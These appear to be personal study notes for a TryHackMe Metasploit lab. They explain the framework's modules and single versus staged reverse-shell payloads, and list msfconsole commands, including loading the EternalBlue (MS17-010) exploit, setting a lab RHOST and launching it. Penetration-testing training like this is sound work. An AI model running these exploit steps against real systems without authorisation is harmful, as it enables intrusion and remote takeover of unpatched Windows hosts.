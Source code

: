 #Metasploit 

- https://tryhackme.com/room/metasploitintro

Metasploit has two main versions:

- **Metasploit Pro**: The commercial version that facilitates the automation and management of tasks. This version has a graphical user interface (GUI).
- **Metasploit Framework**: The open-source version that works from the command line. This room will focus on this version, installed on the AttackBox and most commonly used penetration testing Linux distributions.

The main components of the Metasploit Framework can be summarized as follows;

- **msfconsole**: The main command-line interface.
- **Modules**: supporting modules such as exploits, scanners, payloads, etc.
- **Tools**: Stand-alone tools that will help vulnerability research, vulnerability assessment, or penetration testing. Some of these tools are msfvenom, pattern_create and pattern_offset. We will cover msfvenom within this module, but pattern_create and pattern_offset are tools useful in exploit development which is beyond the scope of this module.

- **Exploit:** A piece of code that uses a vulnerability present on the target system.
- 
- **Vulnerability:** A design, coding, or logic flaw affecting the target system. The exploitation of a vulnerability can result in disclosing confidential information or allowing the attacker to execute code on the target system.
- 
- **Payload:** An exploit will take advantage of a vulnerability. However, if we want the exploit to have the result we want (gaining access to the target system, read confidential information, etc.), we need to use a payload. Payloads are the code that will run on the target system.


```

/opt/metasploit-framework/embedded/framework/modules# tree -L 1 auxiliary/ auxiliary/

/opt/metasploit-framework/embedded/framework/modules# tree -L 1 encoders/ encoders/

/opt/metasploit-framework/embedded/framework/modules# tree -L 2 evasion/ evasion/

/opt/metasploit-framework/embedded/framework/modules# tree -L 1 exploits/ exploits/

NOPs (No OPeration) do nothing
/opt/metasploit-framework/embedded/framework/modules# tree -L 1 nops/

/opt/metasploit-framework/embedded/framework/modules# tree -L 1 payloads/

/opt/metasploit-framework/embedded/framework/modules# tree -L 1 post/

```

You will see four different directories under payloads: adapters, singles, stagers and stages.

Metasploit has a subtle way to help you identify single (also called “inline”) payloads and staged payloads.

- generic/shell_reverse_tcp
- windows/x64/shell/reverse_tcp

Both are reverse Windows shells. The former is an inline (or single) payload, as indicated by the “_” between “shell” and “reverse”. While the latter is a staged payload, as indicated by the “/” between “shell” and “reverse”.

```

exploit
payload
singles
singles

```


msfconsole

```
ls
ping -c 1 8.8.8.8
help set
history

use exploit/windows/smb/ms17_010_eternalblue
show options
show payloads

back

info

search ms17-010

use  #  (use 2)

search type: auxiliary telnet


search apache

use auxiliary/scanner/ssh/ssh_login

provided by todb

```



working with modules

```

back
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.148.177
show options
set LHOST 

check
exploit -z
background
sessions


---
set lport 6666
setg rhosts 10.10.19.23
unset payload
exploit

```























